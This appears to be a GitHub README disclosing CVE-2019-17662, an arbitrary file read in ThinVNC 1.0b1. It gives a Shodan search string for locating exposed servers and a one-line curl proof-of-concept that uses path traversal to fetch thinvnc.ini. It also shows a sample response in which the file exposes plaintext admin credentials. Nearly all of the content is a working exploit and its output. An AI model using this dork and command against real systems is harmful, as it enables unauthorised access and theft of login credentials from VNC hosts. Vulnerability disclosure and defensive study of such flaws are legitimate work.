 ## CVE-2019-17662
![](https://img.shields.io/static/v1?label=Product&message=ThinVNC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1.0b1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Arbitrary%20File%20Read&color=red)


- Shodan dork:
```
"ThinVNC"
```
	  
- POC:
```
curl -k -X 'GET' "http://target_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
